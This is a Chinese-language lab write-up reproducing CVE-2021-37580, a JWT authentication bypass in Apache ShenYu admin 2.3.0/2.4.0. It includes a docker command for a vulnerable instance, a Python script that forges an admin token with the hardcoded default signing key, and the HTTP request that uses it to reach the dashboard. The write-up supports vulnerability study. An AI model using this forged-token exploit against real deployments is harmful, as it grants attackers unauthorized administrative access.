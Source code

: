 # Apache ShenYu 网关JWT认证绕过漏洞 CVE-2021-37580

Apache ShenYu是一个异步的，高性能的，跨语言的，响应式的API网关，Apache ShenYu功能十分强大且易于扩展，支持各种语言的http协议，同时支持Dubbo、 Spring Cloud、 gRPC、 Motan、 Sofa、 Tars 等协议。2021年11月，Apache ShenYu被爆出存在身份认证绕过漏洞，攻击者可以通过该漏洞绕过JWT(JSON Web Token)安全认证机制，直接进入系统后台。

影响版本：

Apache ShenYu 2.3.0
Apache ShenYu 2.4.0

项目地址

https://github.com/apache/shenyu

## 漏洞环境

执行如下命令启动一个shenyu-admin:2.4.0

```
sudo docker run -d -p 9095:9095 apache/shenyu-admin:2.4.0
```

![image-20250117145911299](./1.png)

## 漏洞复现

运行生成jwt token的python脚本（salt为JWT加密的密钥）

```python
import time
from jwt import PyJWT

if __name__ == "__main__":
    headers = {
        "alg": "HS256",
        "typ": "JWT"
    }
    salt = "2095132720951327"
    exp = int(time.time())
    payload = {
        "userName": 'admin',
        "exp": exp
    }
    token = PyJWT().encode(payload=payload, key=salt,algorithm='HS256', headers=headers)
    print(token)
```

![image-20250117150507644](./2.png)

携带上X-Access-Token 访问dashboardUser接口

```
GET /dashboardUser HTTP/1.1
Host: 192.168.27.128:9095
Accept-Encoding: gzip, deflate, br
Accept: */*
X-Access-Token:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyTmFtZSI6ImFkbWluIiwiZXhwIjoxNzM3MDk3MjkwfQ.hEgBD9S8a0MNVNRx9ZoQ3QGHb5LpKK9P79cQKVp8urA
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

![image-20250117150632406](./3.png)